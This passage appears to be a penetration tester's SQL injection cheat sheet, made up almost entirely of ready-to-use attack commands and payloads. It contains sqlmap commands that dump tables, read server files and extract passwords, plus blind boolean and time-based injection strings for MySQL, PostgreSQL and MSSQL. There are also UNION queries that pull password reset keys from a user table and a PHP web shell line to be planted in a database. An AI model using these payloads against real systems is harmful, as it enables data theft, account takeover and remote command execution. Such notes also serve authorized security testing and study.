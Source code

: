         Crawl:  sqlmap -u http://192.168.1.101 --dbms=mysql --crawl=3
		Examples:
			Automated Scan:  sqlmap -u http://example.com --forms --batch --crawl=10 --cookie=sessionid=12345 --level=5 --risk=3
			Targeted Scan:  sqlmap -u TARGET -p PARAM --data=POSTDATA --cookie=COOKIE --level=3 --current-user --current-db --passwords --file-read="/var/www/page.php" 
			Check Form for Injection:  sqlmap -o -u "http://example.com/form/" --forms
			sqlmap -u "http://example.com/page.php?id=1" --dbms=mysql --technique=U --random-agent --dump
			sqlmap -o -u "http://example.com/vuln-form" --forms -D database-name -T users --dump
	Blind SQL Injection:
		Boolean (if you have a visual indicator):
			MySQL:
				True:  AAAA')/**/or/**/(select/**/1)=1%23
            			False:  AAAA')/**/or/**/(select/**/1)=0%23
				Extraction:  q=test%27)/**/or/**/(select/**/ascii(substring((select/**/version()),1,1)))=53%23
		Time-Based (if no feedback is displayed):
			PostgreSQL:  ?userId=1;%20SELECT%20pg_sleep(10)%20--
    More Blind SQLI:
        Cheat Sheet: https://ansar0047.medium.com/blind-sql-injection-detection-and-exploitation-cheatsheet-17995a98fed1
        Script writing:  https://diablohorn.com/2014/07/26/writing-your-own-blind-sqli-script/
        Example Process (Display Based - PostgreSQL):
            /home/1'  then:  /home/1 OR 1=1  then:  /home/1 AND 1=2
            If condition (if 1-3 are valid):  /home/(select case when 1=1 then 1 else 4 end)
            Guessing tables:  /home/(select case when tbl_name='users' then 1 else 4 end from sqlite_master where type='table')
            Guessing names from users table:  /home/(select case when substr(UserName,1,1)='A' then 1 else 4 end from users limit 1)
                /home/(select case when substr(UserName,2,1)='d' then 1 else 4 end from users limit 1)
                etc.
        Content-Based:
            Display or don't display:  id=1 and 1=if(substring((select @@version),1,1)=5,1,2)
                Base query:  root' and 1=if(({PLACEHOLDER})=PLACEHOLDERVAR,1,2)--+
                    ex. root' and 1=if(substring((select @@version),1,1)=20,1,2)–-+  ->  root' and 1=2  ->  False  ->  nothing displayed
            Display content based on query:  id=1 + substring((select @@version),1,1)
        Time Based:
            Microsoft SQL: /vulnerable.php?id=1' waitfor delay '00:00:10'--
            MySQL: 
                1 UNION SELECT IF(SUBSTRING(user_password,1,1) = CHAR(50),BENCHMARK(5000000,ENCODE('MSG','by 5 seconds')),null) FROM users WHERE user_id = 1;
                select if(substring(bin(ascii(substring((select @@version),1,1))),sleep(10),0)=TRUE,3,4)
                root' and 1=if(substring({},{},1)=TRUE,sleep(1),2)– 
            PostgreSQL: pg_sleep()
	SQL command LFI/reverse shell:  add field in table with value:  <?php system($_REQUEST["cmd"]);?>
	Follow-on Auth Bypass Methods:
		dump hashes and crack passwords
		account hijack methods (ex. stealing password reset token)
	Fix Collation Error:
                Check Injection Site:  abc" UNION ALL SELECT 1,2,3,4,COLLATION_NAME FROM information_schema.columns WHERE TABLE_NAME = "__global_search" AND COLUMN_NAME = "name"#
                Then Apply:  abc" UNION ALL SELECT 1,2,3,4,name COLLATE utf8mb4_general_ci FROM __Auth#
            Ex. Finding value/pulling column names:  abc" UNION ALL SELECT 1,2,3,4,COLUMN_NAME FROM information_schema.columns WHERE TABLE_NAME = "tabUser"#
                Pull value:  abc" UNION ALL SELECT name COLLATE utf8mb4_general_ci,2,3,4,reset_password_key COLLATE utf8mb4_general_ci FROM tabUser#
